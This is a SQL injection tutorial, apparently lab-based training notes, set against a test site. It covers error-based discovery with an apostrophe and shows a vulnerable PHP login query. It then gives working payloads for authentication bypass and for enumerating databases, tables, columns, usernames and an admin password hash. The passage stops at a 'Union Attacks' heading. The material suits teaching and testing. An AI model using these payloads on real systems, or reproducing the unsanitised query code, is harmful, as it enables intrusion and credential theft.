





# Additional Examples

All of the following examples will be based around a vulnerable application that is hosted at `http://sqli.com` (`/etc/hosts` file has been modified to point that domain at the correct IP)

## Error-Based SQLi Discovery

A visitor `http://sqli.com` is presented with a login page that coincidentally is vulnerable to SQLi.

As usual a good starting point is the apostrophe (`'`) test. This consists of placing a single apostrophe in the username field to see if it breaks the query:

<figure><figcaption><p>Error resulting from placing an apostrophe in the username field</p></figcaption></figure>

The error message indicates a couple of things:

1. The application is vulnerable to SQLi
2. The application is running a MYSQL database

## Simple Authentication Bypass

Consider the following PHP snippet that grants authentication:

```php
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Since both the `uname` and `password` parameters come from user-supplied input, an attacker can control the `$sql_query` variable and craft a different SQL query.

By forcing the closing quote on the `uname` value and adding an `OR=1=1` statement followed by a _`--`_ comment separator and two forward slashes (_`//`_), one can prematurely terminate the SQL statement.

In this section's examples these comment separators are trailed with two double slashes. This provides visibility on the payload, and also adds some protection against any kind of whitespace truncation the web application might employ.

Placing the following into the username field on the webpage:

```
offsec' OR 1=1 -- //
```

Would result in the SQL query being:

```sql
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```

Which would be passed to the database by PHP. This query would result in circumnavigation of the authentication mechanism shown above.

<figure><figcaption><p>Authentication successfully bypassed</p></figcaption></figure>

## Enumeration

The same vulnerable field that allows authentication bypass can be used for database enumeration.

Acquiring the version of the database could be done with the following in the username field:

```
' or 1=1 in (select @@version) -- //
```

This would result in the output:

<figure><figcaption><p>Database version</p></figcaption></figure>

The following will result in a list of databases available:

```
' OR 1=1 IN (SELECT schema_name FROM information_schema.schemata) -- //
```

The following entered in the username field shows a list of tables in any database:

```
' OR 1=1 IN (SELECT table_name FROM information_schema.tables WHERE table_schema LIKE 'offsec') -- //
```

The following lists the columns in a table:

```
' OR 1=1 IN (SELECT column_name FROM information_schema.columns WHERE table_name = 'users') -- //
```

One needs to consider that the query must have the same size output as the space to list it. For example attempting to dump all info from the users table via the following:

```
' OR 1=1 in (SELECT * FROM users) -- //
```

Causes an error:

<figure><figcaption><p>Column count error</p></figcaption></figure>

In this instance once could first enumerate the users:

```
' OR 1=1 in (SELECT username FROM users) -- //
```

And then leak their password (hashed as it turns out):

```
' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

<figure><figcaption><p>Leaked password hash</p></figcaption></figure>

## Union Attacks

